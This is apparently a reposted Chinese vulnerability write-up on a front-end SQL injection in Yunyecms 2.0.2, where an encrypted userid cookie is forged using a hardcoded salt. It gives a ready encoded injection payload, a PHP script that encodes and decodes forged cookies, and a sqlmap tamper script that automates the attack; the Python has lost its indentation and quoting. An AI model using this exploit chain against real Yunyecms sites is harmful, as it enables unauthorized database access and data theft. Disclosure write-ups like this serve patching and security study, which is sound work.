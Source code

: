 # Yunyecms V2.0.2 前台注入漏洞（二）

> 原文：[https://www.zhihuifly.com/t/topic/3293](https://www.zhihuifly.com/t/topic/3293)

# Yunyecms V2.0.2 前台注入漏洞（二）

## 一、漏洞简介

云业CMS内容管理系统是由云业信息科技开发的一款专门用于中小企业网站建设的PHP开源CMS，可用来快速建设一个品牌官网(PC，手机，微信都能访问)，后台功能强大，安全稳定，操作简单。

## 二、漏洞影响

yunyecms 2.0.2

## 三、复现过程

问题出现在前台`me***.php`文件中，自定义表单customform中的userid从cookie中获取，截取一段数据包可以看到cookie的userid如下：

![image](img/5c2ccbec4693120d97672527b496e52a.png)

经过了加密处理，根据解密算法**yunyecms_strdecode**可以在corefun.php找到对应的加解密算法

![image](img/3050b5f9563f88d1b4e4d47d94bdff88.png)

因为cookie里的userid可控因此我们根据算法流程我们可以在cookie中伪造userid值。还是用刚刚以上截取的userid测试。

![image](img/47c753a958061e48712be96f562e99b8.png)

可以看到真实的userid为9。构造一个SQL注入，生成如下payload：

![image](img/72008b3d369e7a2796c3bf7de8b662a1.png)

```
YmM0OWM5ZWY1ODk5ZGRkNzM0T1NjZ1lXNWtJSE5zWldWd0tEVXA4ZDdlNzk5NTliNDQyYTI1ZDE0ZWUzODZmZDI4MzY5OTM0YQ== 
```

payload生成代码front-test.php为：

```
<?php
function yunyecms_strencode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
	return base64_encode(substr(md5($salt),8,18).base64_encode($string).substr(sha1($salt),0,35));
}
function yunyecms_strdecode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
	$retstr=base64_decode($string);
	$SHA1salt=substr(sha1($salt),0,35);
	$md5salt=substr(md5($salt),8,18);
    $retstr=substr($retstr,strlen($md5salt));
    $retstr=substr($retstr,0,(strlen($retstr)-strlen($SHA1salt)));
	return base64_decode($retstr);
}
if ($_GET['cookie']) {
	$string=$_GET['cookie'];
	$userid=yunyecms_strdecode($string);
	echo $userid;
}
if($_GET['userid']){
	$string=$_GET['userid'];
	$cookie=yunyecms_strencode($string);
	echo $cookie;
} 
```

继续追溯可控的userid,可以看到userid经过步骤`3->4->5`传递到了pagelist函数中

![image](img/0a2b1d531eaa7050072a5a2941fd9441.png)

跟入pagelist函数，将$where拼接到了sql查询语句中$sqlcnt,然后交给了前几次SQL注入都出现的SQL查询函数**GetCount**中。

![image](img/1cbc4e8dbb3f925767f4e6e4666a743b.png)

详细查看下该函数，直接进行了sql查询。

![image](img/2d015afa15854cb9c44c19f6ee663639.png)

附上截

![image](img/f9bb9af3c6eaa6a8bf38233ac824b272.png)

手工有点麻烦，又想丢入sqlmap怎么办，由于userid经过了加密和编码处理，于是根据算法流程写一个tamper就可以很好的解决了，

![image](img/1e186f38e62a2268cb817da5979fe8c0.png)

对应tamper的的脚本为

```
yunyecms_front_sqli_tamp.py
#!/usr/bin/env python

“”"

Copyright © 2006-2018 sqlmap developers ([http://sqlmap.org/](http://sqlmap.org/))

See the file ‘LICENSE’ for copying permission

“”"

import base64

import hashlib

from lib.core.enums import PRIORITY

from lib.core.settings import UNICODE_ENCODING

**priority** = PRIORITY.LOW

def dependencies():

pass

def md5(data):

hash_md5 = hashlib.md5(data)

md5data=hash_md5.hexdigest()[8:18]

return md5data

def sha1(data):

string_sha1=hashlib.sha1(data).hexdigest()[0:35]

return string_sha1

def yunyecms_strencode(string):

salt=’~^y#u%n$y^e*c%m^s^~’

return base64.b64encode(md5(salt)+base64.b64encode(string)+sha1(salt))

def tamper(payload, **kwargs):

“”"

Base64-encodes all characters in a given payload

```
&gt;&gt;&gt; tamper("1' AND SLEEP(5)#")
'MScgQU5EIFNMRUVQKDUpIw=='
"""

return yunyecms_strencode(payload) if payload else payload 
``` 
```